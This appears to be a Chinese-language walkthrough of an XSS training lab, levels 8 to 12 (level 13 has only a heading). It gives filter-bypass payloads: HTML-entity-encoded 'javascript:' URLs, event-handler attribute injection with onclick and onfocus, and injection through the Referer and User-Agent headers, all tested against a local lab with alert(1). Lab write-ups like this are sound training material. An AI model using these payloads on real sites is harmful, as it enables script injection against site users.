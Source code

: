 # level8

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240415160039.png)

一个添加友链的功能，但是添加了过滤。

可以用HTML 实体编码绕过

`r->&#114`

`javasc&#114;ipt:alert(1)`

# level9

输入测试payload：`'';!--"<XSS>=&{()}`

必须包含http://

`javasc&#114ipt:alert('http://')`

# level10

输入测试payload：`'';!--"<XSS>=&{()}`

结果如下：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240415172300.png)

`http://127.0.0.1:1235/xss-lab/level10.php?t_link=&t_history=&t_sort=1"onclick='alert(1)' type="text"`

hidden隐藏的输入框，没什么意思

# level11

输入测试payload发现

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240416161433.png)

双引号被转义，但是referer处不受限制。

所以添加referer：`" type="text" onfocus="javascript:alert(1)`

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240416165730.png)

# level12

同上，改成ua处。

# level13
